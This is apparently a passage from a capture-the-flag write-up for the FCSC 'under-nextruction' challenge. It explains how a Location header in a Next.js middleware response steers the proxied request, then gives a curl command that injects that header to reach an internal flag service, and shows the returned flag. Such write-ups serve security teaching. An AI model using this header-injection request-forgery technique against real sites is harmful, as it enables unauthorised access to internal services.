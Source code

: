 ```javascript
// in `handleRoute` function, in `resolveRoutes` function.
// middlewareHeaders = headers from our middlware.js :
//
//   return NextResponse.next({ headers: requestHeaders });
//
if (middlewareHeaders['location']) {
  const value = middlewareHeaders['location'] as string
  const rel = getRelativeURL(value, initUrl)
  resHeaders['location'] = rel
  parsedUrl = url.parse(rel, true)

  return {
    parsedUrl,      // OK, giving https://example.com will output `https:` for protocol.
    resHeaders,
    finished: true, // OK
    statusCode: middlewareRes.status,
  }
}
```

As you can see, if the `Location` header is set in the middleware response, it will be used to set the `parsedUrl` variable.

This variable is used to set the URL of the request sent to the `proxyRequest` function.

This means that we can set the `Location` header in the middleware response to `http://under-nextruction-flag:5000/get_flag` and it will be used to set the URL of the request sent to the `proxyRequest` function.

## Get the flag !

Now, we'll request `/api/user` since...

- `/api/` is required by the middleware ;
- `/api/user` exists, a 404 error will not be thrown.

Also, we need our session cookie to be set, to comply with the middleware.

```bash
curl https://under-nextruction.fcsc.fr:2213/api/user \
  -b 'session=eyJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InZleGNpdGVkIiwiaWF0IjoxNzQ1MjM4NDUwLCJleHAiOjE3NDUzMjQ4NTB9.Y6BpTLOtsNlBdx6yWdXdZAv3UN2wZFv1iJ2o2Eywy40' \
 -H 'Location: http://under-nextruction-flag:5000/get_flag' \
 -H 'X-Key: 8fce97b0137965a3ddd635355eb3b1d249844c814c7981ade10dc201a329b457'
```

```json
{
  "flag": "FCSC{b2eac9d3dfbf0de3053beb63edec23df41b103c58a18b811ebd52d372d6f0cad}"
}
```

We can now extract the flag and submit it !
